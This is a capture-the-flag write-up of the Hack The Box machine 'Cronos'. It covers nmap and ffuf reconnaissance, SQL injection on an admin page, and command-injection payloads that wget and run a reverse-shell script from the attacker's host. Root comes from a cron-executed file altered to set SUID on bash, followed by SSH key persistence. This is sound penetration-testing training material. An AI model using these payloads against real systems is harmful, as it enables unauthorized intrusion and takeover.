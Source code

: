 # cronos

`nmap` scan

```text
# Nmap 7.91 scan initiated Mon Aug  9 16:30:55 2021 as: nmap -sS -sV -sC -A -O -p- --min-rate 1000 -oN cronos 10.129.30.241
Nmap scan report for 10.129.30.241
Host is up (0.15s latency).
Not shown: 65532 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
# not much here

53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.10.3-P4-Ubuntu
# nothing here

80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.12 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.18 (92%), Linux 3.2 - 4.9 (92%), Linux 3.8 - 3.11 (92%), Linux 4.2 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

an `nmap` script on the `DNS` server. Let's run it in background, while we look at the `HTTP` server. Update: nothing much from here

```text
nmap -p53 --min-rate 1000 --script broadcast-dns-service-discovery.nse,dns-blacklist.nse,dns-brute.nse,dns-cache-snoop.nse,dns-check-zone.nse,dns-client-subnet-scan.nse,dns-fuzz.nse,dns-ip6-arpa-scan.nse,dns-nsec-enum.nse,dns-nsec3-enum.nse,dns-nsid.nse,dns-random-srcport.nse,dns-random-txid.nse,dns-recursion.nse,dns-service-discovery.nse,dns-srv-enum.nse,dns-update.nse,dns-zeustracker.nse,dns-zone-transfer.nse,fcrdns.nse 10.129.30.241
```

on `ffuf`'ing the `HTTP` server with `10.10.10.13 cronos.htb` \(there is just apache page on using with IP address\), we get a `Laravel` page

![](../../.gitbook/assets/screenshot-2021-08-09-at-22.39.02.png)

and a `web.config` on the `ffuf` scan

```text
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.13/FUZZ
 :: Wordlist         : FUZZ: /usr/share/dirb/wordlists/common.txt
 :: Header           : Host: cronos.htb
 :: Extensions       : .php .txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

.htaccess               [Status: 403, Size: 294, Words: 22, Lines: 12]
                        [Status: 200, Size: 2319, Words: 990, Lines: 86]
robots.txt              [Status: 200, Size: 24, Words: 2, Lines: 3]
server-status           [Status: 403, Size: 298, Words: 22, Lines: 12]
web.config              [Status: 200, Size: 914, Words: 209, Lines: 24]
:: Progress: [13842/13842] :: Job [1/1] :: 814 req/sec :: Duration: [0:00:17] :: Errors: 0 ::
```

```text
<configuration>
  <system.webServer>
    <rewrite>
      <rules>
        <rule name="Imported Rule 1" stopProcessing="true">
          <match url="^(.*)/$" ignoreCase="false" />
          <conditions>
            <add input="{REQUEST_FILENAME}" matchType="IsDirectory" ignoreCase="false" negate="true" />
          </conditions>
          <action type="Redirect" redirectType="Permanent" url="/{R:1}" />
        </rule>
        <rule name="Imported Rule 2" stopProcessing="true">
          <match url="^" ignoreCase="false" />
          <conditions>
            <add input="{REQUEST_FILENAME}" matchType="IsDirectory" ignoreCase="false" negate="true" />
            <add input="{REQUEST_FILENAME}" matchType="IsFile" ignoreCase="false" negate="true" />
          </conditions>
          <action type="Rewrite" url="index.php" />
        </rule>
      </rules>
    </rewrite>
  </system.webServer>
</configuration>
```

these pages are not revealing much to us, So lets do a `subdomain enumeration`

```text
:: Method           : GET
 :: URL              : http://10.10.10.13/index.php
 :: Wordlist         : FUZZ: ./dnsrecon/subdomains-top1mil-20000.txt
 :: Header           : Host: FUZZ.cronos.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

admin                   [Status: 200, Size: 1547, Words: 525, Lines: 57]
www                     [Status: 200, Size: 2319, Words: 990, Lines: 86]
WWW                     [Status: 200, Size: 2319, Words: 990, Lines: 86]
:: Progress: [20000/20000] :: Job [1/1] :: 588 req/sec :: Duration: [0:00:34] :: Errors: 24 :
```

so there is a `SQLi` vulnerability on the `admin.cronos.htb` page. We get a logged in session if we try that.

![](../../.gitbook/assets/screenshot-2021-08-09-at-22.58.27.png)

on the logged in session we have an option to `ping` and `traceroute`, although `traceroute` doesn't work. and if we intercept the ping in `Burp`, we see there might be some `code injection` that might be going on.

![](../../.gitbook/assets/screenshot-2021-08-09-at-23.03.10%20%281%29%20%281%29.png)

this below is my attempt on getting a `reverse shell` on the box

![](../../.gitbook/assets/screenshot-2021-08-09-at-23.16.38%20%281%29%20%281%29%20%281%29%20%281%29%20%281%29.png)

and now, we need to run the following commands on the `Burp repeater`

```text
command=wget+10.10.14.31%3a81/shell.py+-O+/tmp/shell.py;ping+-c+1&host=8.8.8.8
command=python3+/tmp/shell.py;ping+-c+1&host=8.8.8.8
```

and, we got a reverse shell as `www-data`

![](../../.gitbook/assets/screenshot-2021-08-09-at-23.18.40%20%281%29.png)

and we have got a `config.php` here in our working folder, let's try to go to sql.

![](../../.gitbook/assets/screenshot-2021-08-09-at-23.20.57.png)

admin pass, not sure if this will lead us to something. So nothing much here after trying to crack this.

![](../../.gitbook/assets/screenshot-2021-08-09-at-23.21.45%20%281%29%20%281%29%20%281%29.png)

maybe we got something here.

![](../../.gitbook/assets/screenshot-2021-08-09-at-23.26.34.png)

nope, none of this works. By the name of the box, it maybe that there is some `cron jobs` running here. Looking at processes using `pspy`, we can see a pho job running every minute

![](../../.gitbook/assets/screenshot-2021-08-10-at-00.19.47%20%281%29%20%281%29%20%281%29%20%281%29%20%281%29.png)

so we can modify this file to get code execution as `root` user, so let's do that now. So what I did here is, add a line that says

```text
system('chmod +s /bin/bash');
```

in the `/var/www/html/artisan` file. \(it might spoil the box for others if we do this on a shared machine\)

![](../../.gitbook/assets/screenshot-2021-08-10-at-00.26.03.png)

and we are root now. If you want a root ssh shell from now on, its very easy to do that, just add your ssh pub key in the `/root/.ssh/authorized_keys` file and make its permissions as

```text
chmod go= /root/.ssh/authorized_keys
```

![](../../.gitbook/assets/screenshot-2021-08-10-at-00.18.34.png)

